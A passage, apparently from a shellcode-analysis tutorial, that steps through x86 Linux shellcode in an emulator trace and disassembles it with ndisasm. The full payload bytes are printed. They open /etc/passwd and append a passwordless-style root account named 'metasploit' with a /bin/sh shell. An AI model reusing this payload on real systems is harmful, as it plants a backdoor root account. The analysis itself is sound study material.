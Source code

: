 ```shell_session
[emu 0x0x56414d48e740 debug ] Flags:
[emu 0x0x56414d48e740 debug ] 31C9                            xor ecx,ecx
[emu 0x0x56414d48e740 debug ] cpu state    eip=0x00417002
[emu 0x0x56414d48e740 debug ] eax=0x00000000  ecx=0x00000000  edx=0x00000000  ebx=0x00000000
[emu 0x0x56414d48e740 debug ] esp=0x00416fce  ebp=0x00000000  esi=0x00000000  edi=0x00000000
[emu 0x0x56414d48e740 debug ] Flags: PF ZF
[emu 0x0x56414d48e740 debug ] 89CB                            mov ebx,ecx
[emu 0x0x56414d48e740 debug ] cpu state    eip=0x00417004
[emu 0x0x56414d48e740 debug ] eax=0x00000000  ecx=0x00000000  edx=0x00000000  ebx=0x00000000
[emu 0x0x56414d48e740 debug ] esp=0x00416fce  ebp=0x00000000  esi=0x00000000  edi=0x00000000
[emu 0x0x56414d48e740 debug ] Flags: PF ZF
[emu 0x0x56414d48e740 debug ] 6A46                            push byte 0x46
[emu 0x0x56414d48e740 debug ] cpu state    eip=0x00417006
[emu 0x0x56414d48e740 debug ] eax=0x00000000  ecx=0x00000000  edx=0x00000000  ebx=0x00000000
[emu 0x0x56414d48e740 debug ] esp=0x00416fca  ebp=0x00000000  esi=0x00000000  edi=0x00000000
[emu 0x0x56414d48e740 debug ] Flags: PF ZF
[emu 0x0x56414d48e740 debug ] 58                              pop eax
[emu 0x0x56414d48e740 debug ] cpu state    eip=0x00417007
[emu 0x0x56414d48e740 debug ] eax=0x00000046  ecx=0x00000000  edx=0x00000000  ebx=0x00000000
[emu 0x0x56414d48e740 debug ] esp=0x00416fce  ebp=0x00000000  esi=0x00000000  edi=0x00000000
[emu 0x0x56414d48e740 debug ] Flags: PF ZF
[emu 0x0x56414d48e740 debug ] CD80                            int 0x80
stepcount 4
[emu 0x0x56414d48e740 debug ] cpu state    eip=0x00417009
[emu 0x0x56414d48e740 debug ] eax=0x00000046  ecx=0x00000000  edx=0x00000000  ebx=0x00000000
[emu 0x0x56414d48e740 debug ] esp=0x00416fce  ebp=0x00000000  esi=0x00000000  edi=0x00000000
[emu 0x0x56414d48e740 debug ] Flags: PF ZF
```

Processing the shellcode through `ndisasm` produces quite a lot more code than the previous example:

```shell_session
$ echo -ne "\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x28\x00\x00\x00\x6d\x65\x74\x61\x73\x70\x6c\x6f\x69\x74\x3a\x41\x7a\x2f\x64\x49\x73\x6a\x34\x70\x34\x49\x52\x63\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a\x2f\x62\x69\x6e\x2f\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58\xcd\x80\x6a\x01\x58\xcd\x80" | ndisasm -b 32 -p intel -
00000000  31C9              xor ecx,ecx
00000002  89CB              mov ebx,ecx
00000004  6A46              push byte +0x46
00000006  58                pop eax
00000007  CD80              int 0x80
00000009  6A05              push byte +0x5
0000000B  58                pop eax
0000000C  31C9              xor ecx,ecx
0000000E  51                push ecx
0000000F  6873737764        push dword 0x64777373
00000014  682F2F7061        push dword 0x61702f2f
00000019  682F657463        push dword 0x6374652f
0000001E  89E3              mov ebx,esp
00000020  41                inc ecx
00000021  B504              mov ch,0x4
00000023  CD80              int 0x80
00000025  93                xchg eax,ebx
00000026  E828000000        call 0x53
0000002B  6D                insd
0000002C  657461            gs jz 0x90
0000002F  7370              jnc 0xa1
00000031  6C                insb
00000032  6F                outsd
00000033  69743A417A2F6449  imul esi,[edx+edi+0x41],dword 0x49642f7a
0000003B  736A              jnc 0xa7
0000003D  3470              xor al,0x70
```